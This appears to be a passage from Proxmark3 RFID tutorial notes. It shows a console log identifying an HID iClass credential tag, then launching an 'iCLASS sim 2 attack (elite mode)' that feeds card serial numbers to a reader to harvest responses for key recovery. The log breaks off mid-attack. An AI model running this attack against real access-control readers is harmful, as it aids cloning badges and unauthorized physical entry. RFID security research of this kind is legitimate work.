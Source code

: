 



4.3 iclass


[usb] pm3 --> hf search
[=] Checking for known tags...
          
#db# [+] button pressed          
   CSN: B5 B5 25 00 F8 FF 12 E0           
    CC: FF FF FF FF E1 FF FF FF           
	Mode: Application [Locked]          
	Coding: ISO 14443-2 B/ISO 15693          
[+] 	Crypt: Secured page, keys not locked          
[!] 	RA: Read access not enabled          
 Mem: 16 KBits/16 App Areas (255 * 8 bytes) [1F]          
	AA1: blocks 06-12          
	AA2: blocks 13-FF          
	OTP: 0xFFFF          

KeyAccess:          
	Read A - Kd or Kc          
	Read B - Kd or Kc          
	Write A - Kc          
	Write B - Kc          
	Debit  - Kd or Kc          
	Credit - Kc          
 App IA: FF FF FF FF FF FF FF FF           
[+]       : Possible iClass (legacy credential tag)          
          
[+] Valid iClass tag / PicoPass tag  found






[usb] pm3 --> hf iclass sim 2
[=] Starting iCLASS sim 2 attack (elite mode)          
[=] press Enter to cancel          
#db# [+] going into attack mode, 9 CSNS sent          
#db# [-] bad 9F at 0:0          
#db# [-] bad AF at 1:0          
#db# [-] bad FF at 0:0          
#db# [-] bad AF at 1:0          
#db# [-] bad 3F at 0:6          
#db# [-] bad AF at 7:6          
#db# [-] bad AF at 0:4          
#db# [-] bad D7 at 1:0          
#db# [-] bad BB at 7:4          
#db# [-] bad BE at 6:2          
#db# [-] bad AF at 0:2          
#db# [-] bad D7 at 1:0          
#db# [-] bad AF at 0:2          
#db# [-] bad AF at 0:6          
#db# [-] bad AF at 0:4          
#db# [-] bad AF at 1:0          
#db# [-] bad AF at 1:6          
#db# [+] CSN: 01 .... e0 OK          
#db# [-] bad DA at 1:0          
#db# [-] bad E9 at 1:0          
#db# [-] bad FF at 0:0          
#db# [-] bad AF at 0:0          
#db# [-] bad EB at 0:0          
#db# [-] bad EB at 1:0          
#db# [-] bad FF at 0:0          
#db# [-] bad AF at 0:6          
#db# [-] bad AF at 0:4          